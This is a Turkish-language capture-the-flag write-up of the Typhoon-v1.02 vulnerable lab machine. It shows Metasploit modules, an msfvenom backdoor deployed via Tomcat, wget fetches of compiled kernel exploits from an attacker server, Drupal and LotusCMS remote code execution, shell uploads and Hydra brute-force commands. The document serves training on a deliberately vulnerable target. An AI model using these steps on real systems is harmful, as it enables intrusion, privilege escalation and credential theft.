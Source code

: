 ```yaml
---
layout: post
title: "Typhoon-v1.02 WRITEUP"
tags: [writeup]
subtitle: "Typhoon-v1.02 makinesi çözümleri"
---
```


***Hazırlayanlar: [Alp Eren Işık](https://github.com/isikerenalp)  [Feyzi Yuşa Karababa](https://github.com/Fykarababa)***

***
PRISMA CSI tarafından hazırlanan Typhoon-v1.02 makinesini elimizden geldiği kadar çözmeye çalıştık ve sizler için ufak bir writeup hazırladık. Biz çözerken çok zevk aldık umarım sizler içinde zevkli bir writeup olur.
***

# `NMAP`
  İlk aşamada Nmap ile port taraması yaparak çalışan servisleri ve versiyonları öğrendik.
  Devamında bu servisler ve versiyonları üzerinden mevcut exploitleri araştıracağız.

  ![nmap](/images/typhoon_writeup/nmap.png)

# `Apache Tomcat`
  Metasploit kullanarak **use auxiliary/scanner/http/tomcat_mgr_login** scanner kullanarak tomcat parolasını bulmaya çalışıyoruz.

  ![](/images/typhoon_writeup/msf1.png)

  Aşşağıda gördüğünüz gibi tomcat username ve password bulmuş oluyoruz

  ![](/images/typhoon_writeup/msf2.png)

  Daha sonra **10.242.24.216:8080/manager** adresine giderek bulmuş olduğumuz **username** `(tomcat)` ve **password** `(tomcat)` ile giriş yapıyoruz.

  ![](/images/typhoon_writeup/tomcat_tomcat.png)

  Giriş yaptıktan sonra tekrar Metasploitimize geri dönüyoruz ve **msfvenom** ile backdoor oluşturuyoruz.

  ![](/images/typhoon_writeup/msf3.png)

  Daha sonra oluşturmuş olduğumuz bu backdooru girmiş olduğumuz **tomcat** üzerinden **deploy** ediyoruz

  ![](/images/typhoon_writeup/tomcat_deploy.png)

  Deploy ettikten sonra tekrar Metasploitimize gelerek `use exploit/multi/handler` yazıyoruz daha sonra modülümüze bağlanacağımız backdoor payloadımızı ve bilgilerimizi giriyoruz.

  Artık tarayıcımızdan `10.242.24.216:8080/manager/typhoon/lyrzruiw.jsp` adresine girebiliriz.


  ![](/images/typhoon_writeup/msf4.png)

  ![](/images/typhoon_writeup/tomcat_backdoor.png)

  Bu aşamadan sonra sunucuda **ROOT** olmaya çalışacağız.


# `Yetki Yükseltme - 1 (dirtycow)`
    https://www.exploit-db.com/exploits/40616
  Backconnect olduğumuz makinemizde **C** kodunu derleyemediğimiz için derleme işlemini uzak sunucuda gerçekleştirmeye karar verdik.

  Uzak sunucumuzda `wget https://www.exploit-db.com/raw/40616/index.html` ile komutları çektik ve uzak sunucumuzda bunu derledik. Daha sonra Typhoon makinesinde `wget https://sunucu_adresi/prisma` diyerek derlenmiş **C** kodunu makinemize yüklemiş olduk. Derleyip wget ile çekmiş olduğumuz exploitimizi makinemizde çalıştırdık ve **ROOT** olduk. Son olarak `echo 0 > /proc/sys/vm/dirty_writeback_centisecs` komutunu girerek exploitimizin stabil olmasını sağlayarak sunucunun crash olmasını engelliyoruz. :)

  ![](/images/typhoon_writeup/msf5_dirtycow.png)

# `Yetki Yükseltme - 2 (Ubuntu Kernel Exploit)`
    https://www.exploit-db.com/exploits/37292/
Yukarıda anlatmış olduğumuz işlemleri bu exploitimiz ile de uygulayarak `wget https://sunucu_adresi/ubn` ile çekmiş olduğumuz exploitimizi makinemizde çalıştırarak  **ROOT** oluyoruz. :)

![](/images/typhoon_writeup/msf5_ubuntu_exploit.png)

# `Samba smbd 3.X - 4.X (ROOT)`
    Github Code = https://github.com/rapid7/metasploit-framework/blob/0520d7cf76f8e5e654cb60f157772200c1b9e230/modules/exploits/linux/samba/is_known_pipename.rb

Çalışan versiyonda bir exploit olduğunu öğrendik. Githubda bulduğumuz kodu `wget` ile **/opt/metasploit/modules/exploits/linux/samba/** dizini altına **is_known_pipename.rb** ismiyle kaydettik. Daha sonra metasploit üzerinden exploiti kullanarak makinemizde **ROOT** olduk. :)

![](/images/typhoon_writeup/samba.png)  

    NOT: Eğer bu aşamadan sonra root olmaz ise devamında dirtycow ile rootlayabilirsiniz.

# `Phpmyadmin Username && Password`
Sunucumzuda root olduktan sonra içeriye bir de shell atalım dedik. Shellimizden dizinleri ve dosyaları gezerken `/var/www/html/dvwa/config/config.inc.php` dosyası içerisinde **phpmyadmin** kullanıcı adı ve parolasını bulduk.

![](/images/typhoon_writeup/phpmyadmin1.png)

![](/images/typhoon_writeup/phpmyadmin2.png)

![](/images/typhoon_writeup/phpmyadmin3.png)

# `Kullanıcı Adı ve Parolası`
Shellimizi attıktan sonra bir de mongoadmin dikkatimizi çekti ve biz de  `http://192.168.43.114/mongoadmin/` adresine gittik.

**credentials** Bir değişiklik yapmadan bu şekilde aratıyoruz.

![](/images/typhoon_writeup/mongoadmin1.png)

**creds (2)**

![](/images/typhoon_writeup/mongoadmin2.png)

Kullanıcı adı ve parolasını öğrenmiş olduk.

![](/images/typhoon_writeup/mongoadmin3.png)

URL= `http://192.168.43.114/mongoadmin/index.php?db=credentials&action=listRows&collection=creds`

**Username** : `typhoon` && **Password** : `789456123`

![](/images/typhoon_writeup/login.png)


# `PostgreSQL DB 9.3.3 - 9.3.5 Exploit ile Dosya Okuma`
Çalışan PostgreSQL sürümünde dosyaları okumamıza imkan sağlayan bir exploit olduğunu farkettik. ve  Metasploitimiz ile işe koyulmaya başladık :)

    auxiliary/admin/postgres/postgres_readfile

    Not: 'exploit' yerine 'set RFILE ../okunacak_dosya' komutu ile dosyaları okuyabilirsiniz

![](/images/typhoon_writeup/postgresql_read-file.png)


# `Drupal-8 RCE`
***
view-source:http://192.168.1.60/drupal diyerek drupalın sürümünün 8 olduğunu öğrendikten sonra aklımıza Drupal-8 de bulunan RCE geldi.

Drupal RCE CVE-2018-7600 : https://www.exploit-db.com/exploits/44448/  

***
Drupalın **register** bölümünde mevcut olan `RCE` zaafiyeti.

![](/images/typhoon_writeup/drupal.png)

Bunun dışında şöyle bir yöntem izlenebilir , drupalın default olarak config dosyası **sites/default/settings.php** de bulunmakta. Bunu `RCE` açığı ile okuyup database username ve password bilgileri alınıp phpmyadmine giriş yapılabilir.

![](/images/typhoon_writeup/drupal2.png)

**NOT:** `Post olarak gönderdiğimizde ilk olarak shell atmaya çalıştık fakat drupalın dizininde yazma izni yoktu. Ardından pwd komutu ile bulunduğu dizini öğrendik. Sonra var/www/html dizininde yazma izni olduğunu gördük ve shellimizi yükledik. :)`

# `LotusCMS RCE Exploit`
    use exploit/multi/http/lcms_php_exec
    https://www.exploit-db.com/exploits/18565/
  Sistemin kullandığı CMS yazılımının LotusCMS olduğunu öğrendik ve google'da kısa bir araştırma yaptıktan sonra **RCE** exploitinin olduğunu gördük. Daha sonra kullanacağımız exploiti ve bilgilerimizi girdikten sonra `exploit` diyerek çalıştırıyoruz.

![](/images/typhoon_writeup/lotuscms.png)

# `Brute Force ile Parola Tespiti`
***
  Burada Hydra ile **SSH** ve **FTP** 'ye brute force yaparak parolayı bulduk.

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ssh

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ftp
***
`SSH`

![](/images/typhoon_writeup/hydra-ssh.png)

`FTP`

![](/images/typhoon_writeup/hydra_ftp.png)
